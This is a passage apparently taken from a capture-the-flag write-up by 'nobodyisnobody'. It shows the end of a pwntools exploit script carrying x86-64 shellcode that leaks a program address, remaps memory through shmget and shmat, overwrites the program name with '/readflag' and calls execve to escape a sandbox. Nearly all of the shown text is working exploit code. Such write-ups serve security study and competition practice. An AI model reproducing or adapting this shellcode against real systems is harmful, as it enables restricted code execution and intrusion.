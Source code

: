 ```assembly
   mov ecx,dword ptr[rax+0x10]
   or rbx,rcx
   mov r15,rbx
   sub r15,0x50
   /* leak fixed program address */

   /* shmget */
   mov edi,1234
   mov esi,0x400
   mov edx,0x3b6
   mov eax,29
   syscall

   /* remap zone with shmat as rw */
   mov edi,eax
   mov rsi,r15
   mov edx, 16384
   mov eax,30
   syscall

   /* overwrite program name */
   mov rdi,rax
   add rdi,0x50
   mov rbx,cmd[rip]
   mov [rdi],rbx
   mov rbx,cmd+8[rip]
   mov [rdi+8],rbx

   /* execve */
   xor esi,esi
   xor edx,edx
   mov eax,59
   syscall

cmd:
   .string "/readflag"
''')
p.sendafter('shellcode: ', shellc.ljust(0xfd8, b'\x90'))
p.interactive()
```

*nobodyisnobody still escaping rules...*